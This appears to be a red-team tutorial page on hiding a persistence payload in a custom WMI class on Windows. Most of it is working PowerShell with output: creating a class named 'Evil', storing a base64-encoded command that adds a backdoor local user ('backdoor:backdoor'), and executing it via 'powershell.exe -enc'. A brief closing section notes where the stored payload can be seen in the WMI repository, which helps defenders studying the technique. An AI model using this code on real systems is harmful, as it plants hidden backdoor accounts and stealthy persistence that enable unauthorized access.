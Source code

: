 ```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class' properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the EvilPropertty, let's create a powershell base64 encoded command to add a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in screenshots:

![](../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload:

![](../../.gitbook/assets/wmi-evil-mof.png)

Inspecting the OBJECTS.DATA with a hex editor, it is possible to find the same data, but it is impracticle, do not do it and read on:

![](../../.gitbook/assets/wmi-objects-data.png)

